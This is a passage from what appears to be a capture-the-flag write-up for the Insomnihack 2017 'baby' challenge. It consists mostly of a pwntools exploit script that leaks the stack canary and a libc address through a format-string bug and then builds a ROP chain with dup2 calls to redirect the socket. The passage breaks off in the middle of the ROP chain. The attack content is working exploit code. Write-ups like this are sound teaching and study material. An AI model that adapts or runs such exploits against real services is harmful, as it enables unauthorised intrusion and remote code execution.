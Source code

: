 #### exploit

putting it all together we get the following exploit:
```
from pwn import *

# This exploit is based off of: http://pastebinthehacker.blogspot.com/2017/01/insomnihack-2017-baby.html

# Establish the target, architecture, and the libc file
libc = elf.ELF('libc-2.27.so')
target = remote('127.0.0.1', 1337)
context.arch = 'amd64'

# Just a helper function to clear out text
def clearMenu():
        target.recvuntil("choice > ")

# Function to use format string bug to leak value at offset
def infoLeak(offset):
        target.sendline("2")
        target.recvuntil("Your format > ")
        target.sendline("%" + str(offset) + "$lx")
        leak = target.recvline().replace("\n", "")
        leak = int(leak, 16)
        log.info("The infoleak is: " + hex(leak))
        target.sendline("")
        clearMenu()
        return leak

# Sends payload to stack smash option
def smashStack(payload):
        target.sendline("1")
        target.recvuntil("How much bytes you want to send ? ")
        length = str(len(payload))
        target.sendline(length)
        target.sendline(payload)



# Clear the initial text
clearMenu()

# Get the stack canary leak
stackCanary = infoLeak(144)

# Get the libc infoleak, and calculate the base
libcLeak = infoLeak(158)
libcBase = libcLeak - 0x21b97
log.info("The base of libc is: " + hex(libcBase))

# Declare the base of libc
libc.address = libcBase

# Make the rop chain:
'''
0x0000:   0x7ffff7a07e6a pop rsi; ret
0x0008:              0x0 [arg1] rsi = 0
0x0010:   0x7ffff7a0555f pop rdi; ret
0x0018:              0x4 [arg0] rdi = 4
0x0020:   0x7ffff7af49a0 dup2
0x0028:   0x7ffff7a07e6a pop rsi; ret
0x0030:              0x1 [arg1] rsi = 1
0x0038:   0x7ffff7a0555f pop rdi; ret
```